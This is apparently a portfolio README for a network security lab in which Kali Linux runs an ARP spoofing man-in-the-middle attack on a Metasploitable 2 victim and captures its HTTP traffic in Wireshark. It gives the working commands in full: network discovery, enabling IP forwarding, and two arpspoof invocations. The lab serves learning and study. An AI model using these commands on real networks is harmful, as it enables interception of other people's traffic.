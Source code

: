 ## 📄 `Arp spoofing lab`

```
markdownCopyEdit# 🛡️ Network Security Lab – ARP Spoofing with Kali Linux & Wireshark

## ✅ Objective

Simulate a real-world **Man-in-the-Middle (MITM)** attack using **ARP Spoofing** to intercept and monitor traffic between a victim (Metasploitable) and the network gateway, using Kali Linux.

---

## 🧱 Network Setup

| Device           | Role       | IP Address       |
|------------------|------------|------------------|
| Kali Linux       | Attacker   | `192.168.1.182`  |
| Metasploitable 2 | Victim     | `192.168.1.184`  |
| Router/Modem     | Gateway    | `192.168.1.1`    |

🖧 Both machines were connected to the same **virtual network** using **Bridged Adapter**.

---

## 🧠 Step 1: Network Discovery

```bash
sudo netdiscover -r 192.168.1.0/24
```

* * *

## 🔧 Step 2: Enable IP Forwarding

```
echo 1 | sudo tee /proc/sys/net/ipv4/ip_forward
```

🎯 This allows Kali to forward packets between the victim and the gateway.

![Ip2](Screenshots/Ip2.png)

* * *

## 💣 Step 3: Launch ARP Spoofing Attack

### ➤ Terminal 1:

```
sudo arpspoof -i eth0 -t 192.168.1.184 192.168.1.1
```

🌀 Spoofs the victim to believe that Kali is the gateway.

### ➤ Terminal 2:

```
sudo arpspoof -i eth0 -t 192.168.1.1 192.168.1.184
```

🌀 Spoofs the gateway to believe that Kali is the victim.


![Ip4](Screenshots/Ip4.png)
![Ip5](Screenshots/Ip5.png)
* * *

## 👁️ Step 4: Capture Traffic with Wireshark

```
sudo wireshark
```

- Interface selected: `eth0`
- Filter applied:

    ```
    ip.addr == 192.168.1.184
    ```



* * *

## 📥 Step 5: Generate Traffic from Victim

### On Metasploitable:

```
telnet 192.168.1.1 80
```

Then manually send:

```
GET / HTTP/1.1
Host: 192.168.1.1
```

🔍 This created HTTP traffic visible in Wireshark.



* * *

## ✅ Outcome

- Successfully poisoned ARP tables using `arpspoof`
- Intercepted HTTP traffic from victim to gateway using `Wireshark`
- Demonstrated a real-world MITM scenario in a virtual environment

* * *

## 📝 Tools Used

- Kali Linux (Attacker)
- Metasploitable 2 (Victim)
- `arpspoof` from `dsniff`
- `Wireshark`
- `netdiscover`, `telnet`



## 🧠 Key Learning Outcome

> 
> 
> “ARP Spoofing is a fundamental technique used in Man-in-the-Middle attacks. This lab proved how attackers can manipulate ARP tables and monitor or modify traffic in a LAN environment.”
> 

* * *

✅ *This lab is a strong addition to a cybersecurity resume or portfolio under **Network Security / Penetration Testing** section.*

